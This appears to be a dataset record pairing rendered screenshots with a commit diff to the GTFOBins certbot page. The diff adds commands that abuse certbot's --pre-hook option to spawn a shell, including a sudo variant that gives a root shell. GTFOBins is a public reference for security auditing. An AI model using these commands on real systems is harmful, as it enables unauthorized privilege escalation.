

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/certbot.md, in a window 1280 px wide. Shown: the top 546 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Promote certbot command to shell

```diff
--- a/_gtfobins/certbot.md
+++ b/_gtfobins/certbot.md
@@ -1,9 +1,11 @@
 ---
 functions:
+  shell:
+    - code: |
+        TF=$(mktemp -d)
+        certbot certonly -n -d x --standalone --dry-run --agree-tos --email x --logs-dir $TF --work-dir $TF --config-dir $TF --pre-hook '/bin/sh 1>&0 2>&0'
   sudo:
-    - description: A temporary directory is created to not mess around with the current installation. The certbot server has to be reachable. The command output is visible in the certbot output.
-      code: |
-        COMMAND='id'
+    - code: |
         TF=$(mktemp -d)
-        sudo certbot certonly --standalone -n --dry-run -d example.net --work-dir $TF --config-dir $TF --agree-tos --register-unsafely-without-email --pre-hook "$COMMAND"
+        sudo certbot certonly -n -d x --standalone --dry-run --agree-tos --email x --logs-dir $TF --work-dir $TF --config-dir $TF --pre-hook '/bin/sh 1>&0 2>&0'
 ---
```
